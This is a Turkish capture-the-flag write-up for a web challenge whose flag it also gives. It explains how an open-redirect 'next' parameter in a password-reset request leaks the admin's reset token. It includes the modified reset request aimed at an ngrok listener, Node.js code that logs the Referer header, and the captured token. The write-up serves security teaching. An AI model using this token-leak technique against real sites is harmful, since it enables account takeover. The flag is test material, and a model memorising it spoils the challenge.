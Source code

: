 # İsviçre Çakısı

|    |  |
| ------------- |:-------------:|
| Zorluk        | Orta(320 Puan)|
| Aşama         | Final         |
| Soru Türü     | Web Güvenliği |
| Yazar         | [Rednexie](https://github.com/Rednexie) |


## Soru Açıklaması
```
Sizi, bu İsviçre çakısı misali platforma yönlendiriyoruz.
```

## İpuçları
```
Bu ipucu, sizden aldığı bir şeyle sizi çözüme yönlendirecek.
```

## Bayrak
```
BayrakBende{b4ll3r1n4_c4ppuc1n0}
```


# WriteUp

## Sorunun Anlaşılması ve Giriş

Soru ile ilgili bilgilerimiz:

- Bu web güvenliği sorusunda, bize urbatek kurumunun personeli tarafından kullanılan çok amaçlı bir platforma erişim verilmektedir.
- Duyuru olarak da gönderildiği üzere, kurumun yöneticileri kendilerine mail yoluyla gelecek herhangi bir bağlantıya düşünmeden tıklayacak kadar bilinçsizlerdir. 

## Web Sitesinin Araştırılması

Soru sitesine girdiğimizde, bizi birbirinden farklı iki platforma yönlendirmeyi sağlayan 2 platform karşılamaktadır.

- UrbaTasks: Urbatek firmasındaki personelin yapacağı görevlerin anlık olarak takibini yaptıkları platformdur.
- UrbaMail: Urbatek firmasındaki personelin şirket e-posta adreslerini kullanmalarına yarayan web arayüzüdür.

Urba Mail platformunu ziyaret ettiğimzde, urbatek.tr alan adı altında olan bir e-posta adresinin bize tahsis edilmiş olduğunu görürüz. Verilen e-post adresini kopyalayıp UrbaTasks platformun kaydolmamız gerekmektedir. Kaydımızı gerçekleştirdiğimizde beklediğimiz gibi görevleri yönetmemize yarayan bir platform karşımıza çıkmaktadır. Kayıt işleminin hemen sonrasında e-posta kutumuza baktığımızda ise bize kaydımızı tamamladığımıza dair bir e-posta gelmektedir.


Platformun diğer bir özelliği olan şifre sıfırlama özelliğini kullanabiliriz. Bunu yapıtğımızda e-posta adresimize bir şifre sıfırlama bağlantısı gönderilmektedir.

## Trafiğin İncelenmesi ve Zafiyet Tespiti Yapılması

Platformda gezinirken trafiği incelediğimzde, dikkatimizi çeken kısım şifre sıfırlama bölümü olmalıdır. Şifre sıfırlama kısmında kullanıcı adımızı girerek 'Şifre Sıfırlama Talebi Gönder' bölümüne bastığımızda, aşağıdaki post isteğinin sunucuya gittiğini görmekteyiz:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://soru.bayraksende.com:2999/login
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```


Yukarıdaki istekte kullanıcı adımızı içeren 'username', ve yönlendirileceğimiz bağlantıyı içeren 'next' olmak üzere 2 tane parametre bulunmaktadır. 



Ve gelen bağlantıdan şifre sıfırlama talebini başarıyla oluşturduğumuzda, 3 saniye sonra tam da istek gövdesindeki 'next' alanındaki bağlantıya yönlendirildiğimizi fark etmemiz gerekmektedir.



Yani kendimize gönderdiğimiz şifre sıfırlama isteğindeki 'next' alanını değiştirerek kendi e-postamıza gelen sıfırlama bağlantısını modifiye edebiliriz.




Soru metni ve duyurulardaki bilgileri hatırlarsak, platform yöneticilerinin kendi e-posta kutularına gelen herhangi bir bağlantıya tıklayacak kadar bilinçsiz oldukları belirtilmişti.
Peki, bu düzenlenen payload'da kullanıcı adını yöneticilerin kullanıcı adıyla değiştirir ve url kısmını kendi sunucumuza yönlendirecek şekilde değiştirirsek ne olur?


Şifre sıfırlama bağlantılarının formatını inceleyelim:

```url
http://soru.bayraksende.com:2999/reset-password?token=fc8eba6f-dfb3-4776-9a4c-503417303a78&next=http://soru.bayraksende.com:2999/login
```


Bağlantı, post istek gövdemizde verdiğimiz 'next' alanını ve sunucu tarafında oluşturulması muhtemel olan bir şifre sıfırlama tokenını içeriyor.
Bu da şu anlama geliyor: Yöneticiyi kendi web sitemize yönlendirip, onun isteğinden gelen 'referer' başlığını alırsak buradan önce bulunduğu tam url'yi görürüz, ki bu da şifre sıfırlama tokenını içerdiği için admin kullanıcısı için şifre sıfırlama talebi açabilmemiz anlamına gelmektedir.


# Listener Sunucu Kurulumu ve Zafiyetin Sömürülmesi 

Öncelikle, admin kullanıcısının 'referer' başlığını almamız ve depolamamız için bir sunucuya ihtiyacımız olacak. Bunun için istersek dışarıya açık bir sunucumuz ya da hosting'imiz varsa onu, yoksa da kendi cihazımızı ngrok veya serveo gibi reverse proxyler aracılığıyla dışarı çıkararak kendi cihazımızı kullanabiliriz. Pipedream veya webhook gibi sistemlerle de yapmak mümkün, ben çözümde herkes için uygun olması sebebiyle kendi cihaızımı ngrok ile dışarı çıkararak kullanacağım.


Bunun için en kolay yol, kullanmayı en sevdiğimiz yazılım kütüphanesi ve diliyle bir web sunucusu yazmak, ve gelen isteklerdeki referer http başlığının değerini konsola yazdırmak. Ben rahat olduğum ve severek yazdığım için Node.js kullanacağım, siz ne isterseniz onu kullanabilirsiniz.

```js
const http = require('http');

const server = http.createServer((req, res) => {
    const now = new Date();
    const ip = req.socket.remoteAddress;
    const referer = req.headers.referer || 'none';
    console.log(`${now.toISOString()}\nIP: ${ip}\nReferer: ${referer}`);
    res.end();
});

server.listen(3000);
```

Kodu çalıştırdığımda, sunucum cihazın 3000 portunda hazır bekliyor olacak. Bu portu ngrok reverse proxy kullanarak dışarı çıkaracağım, ki tüm kullanıcılar dolayısıyla da adminimiz erişebilsin.

```sh
ngrok http 3000
```

Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örneğin:


`https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`

Şimdi, bu url'yi isteğimizin içine koyalım, ve kullanıcı adı kısmını admin ile değiştirelim:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```

İsteğimizi gönderip sunucu konsolumuza baktığımzda, aşağıdakine benzer bir çıktı gelecektir:


```stdout
2025-05-30T12:34:56.789Z
IP: xxx.xxx.xxx.xxxx
Referer: http://soru.bayraksende.com:2999/reset-password?token=fa18d596-6557-47c0-b148-bed4cb96de30&next=...
```


Bu url'nin uuid token'a olan kısmını alarak ziyaret ettiğimizde, admin kullanıcısı için şifre sıfırlama erişimi elde etmekteyiz. Şifremizi sıfırlayıp yeni şifremiz ile giriş yapabiliriz.




